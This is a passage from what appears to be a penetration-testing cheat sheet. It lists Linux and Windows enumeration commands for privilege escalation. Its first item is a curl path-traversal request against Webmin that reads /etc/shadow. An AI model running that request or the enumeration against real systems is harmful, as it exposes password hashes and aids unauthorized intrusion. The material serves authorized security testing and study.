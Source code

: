       Test to see if webmin is running as root by grabbing /etc/shadow
      
        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`

-   Linux OS Enumeration ( LinEnum.sh, linuxprivchecker.py, linux exploit suggester ) 

    -   List all SUID files  
        `find / -perm -4000 2>/dev/null`

    -   Determine the current version of Linux  
        `cat /etc/issue`

    -   Determine more information about the environment  
        `uname -a`
        
    -   List processes running  
        `ps -xaf`

    -   List the allowed (and forbidden) commands for the invoking use  
        `sudo -l`

    -   List iptables rules  
        `iptables --table nat --list  
        iptables -vL -t filter  
        iptables -vL -t nat  
        iptables -vL -t mangle  
        iptables -vL -t raw  
        iptables -vL -t security`

-   Windows OS Enumeration


    -   net config Workstation
    
    -   systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
    
    -   hostname
    
    -   net users
    
    -   ipconfig /all
    
    -   route print
    
    -   arp -A
    
    -   netstat -ano
    
    -   netsh firewall show state	
    
    -   netsh firewall show config
    
    -   schtasks /query /fo LIST /v
    
    -   tasklist /SVC
    
    -   net start
    
    -   DRIVERQUERY
    